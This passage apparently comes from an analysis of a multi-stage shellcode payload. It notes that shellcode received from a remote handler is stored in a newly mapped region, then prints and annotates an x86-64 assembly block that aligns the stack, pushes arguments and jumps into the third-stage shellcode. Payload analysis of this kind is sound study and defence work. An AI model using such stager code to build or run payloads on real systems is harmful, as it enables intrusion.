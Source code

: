 The shellcode received from the handler will be stored at the address of the new mapping.

The third block is a little longer, but let's analyze it anyway:

```nasm
; align the stack and increase the stack pointer by 50 bytes
; i.e. the last 50 bytes of the stack are going to be replaced by the next instructions
and    rsp,0xfffffffffffffff0
add    sp,0x50

; set RAX to 0x6d
mov    rax,0x6d
push   rax

; store the pointer to 0x6d int RCX
mov    rcx,rsp

; clear RBX
xor    rbx,rbx

; push the some values on the stack
push   rbx
push   rbx
push   rsi
mov    rax,0x7
push   rax
push   rbx
push   rbx
push   rdi
push   rcx
mov    rax,0x2
push   rax

; jump to the address of the new mapping, increased by 0x8d55
mov    rax,0x8d55
add    rsi,rax
jmp    rsi
```

This last block of instructions performs some preliminary operations, such as stack alignment, before jumping to the shellcode of the third stage.

